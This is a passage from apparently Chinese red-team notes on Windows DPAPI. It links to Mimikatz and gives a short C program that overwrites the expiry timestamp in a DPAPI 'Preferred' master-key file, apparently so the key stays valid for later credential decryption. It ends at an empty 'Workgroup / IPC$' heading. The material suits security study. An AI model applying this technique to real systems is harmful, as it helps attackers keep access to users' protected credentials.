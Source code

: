 **相关工具**
- [mimikatz](../../安全工具/Mimikatz.md#dpapi)

**延长 MasterKey 的有效期**
```c
#include <windows.h>
int main(void)
{
	SYSTEMTIME st={0};
	FILETIME   ft={0};
	printf("[+]Start to change expiry time...\n");
	st.wYear = 2025;
	st.wMonth = 12;
	st.wDay = 30;
	st.wHour = 12;
	st.wMinute = 30;
	st.wSecond = 30;
	printf("[+]New expiry time:%d-%d-%d %d:%d:%d\n", st.wYear, st.wMonth, st.wDay, st.wHour, st.wMinute, st.wSecond);
	SystemTimeToFileTime(&st,&ft);
	printf("dwLowDateTime:%08x\n",ft.dwLowDateTime);
	printf("dwHighDateTime:%08x\n",ft.dwHighDateTime);

	FILE *fp;
    fopen_s(&fp,"Preferred","rb+");
	fseek(fp,16,SEEK_SET);
    fwrite(&ft.dwLowDateTime,sizeof(int),1,fp);
	fwrite(&ft.dwHighDateTime,sizeof(int),1,fp);
	fclose(fp);
	printf("[+]Change success.\n");
	return 0;
}
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/9.png)

---

## 工作组

### IPC$
